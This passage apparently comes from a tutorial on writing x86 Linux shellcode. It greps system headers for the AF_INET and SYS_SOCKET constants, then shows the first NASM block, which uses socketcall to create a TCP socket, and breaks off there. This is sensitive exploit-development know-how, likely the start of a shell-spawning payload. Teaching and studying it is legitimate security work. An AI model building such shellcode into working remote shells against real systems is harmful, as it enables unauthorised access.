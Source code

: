 And `AF_INET`

```sh
root@falafel:~# cat /usr/include/i386-linux-gnu/bits/socket.h | grep _INET
#define PF_INET		2	/* IP protocol family.  */
#define PF_INET6	10	/* IP version 6.  */
#define AF_INET		PF_INET
#define AF_INET6	PF_INET6
root@falafel:~# 
```

Lastly, we need to figure out what system socket call function id is `EBX`.

```sh
root@falafel:~/Desktop# cat /usr/include/linux/net.h | grep SOCKET
 * NET		An implementation of the SOCKET network access protocol.
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_SOCKETPAIR	8		/* sys_socketpair(2)		*/
root@falafel:~/Desktop# 
```

Now that we have all the information we need, let’s start coding!

```nasm
global _start

section .text

_start:
 
    ; zero out registers
    xor eax, eax 
    xor ebx, ebx
    xor edx, edx
    xor esi, esi

    ; 
    ; socket() code block
    ;

    ; push NULL for protocol type
    push eax

    ; __NR_socketcall 102
    mov al, 0x66

    ; #define SYS_SOCKET 1
    inc bl

    ; push 1 for SOCK_STREAM
    push byte 0x1

    ; push 2 for AF_INET
    push byte 0x2

    ; store arguments in ECX, ping kernel!
    mov ecx, esp
    int 0x80
```
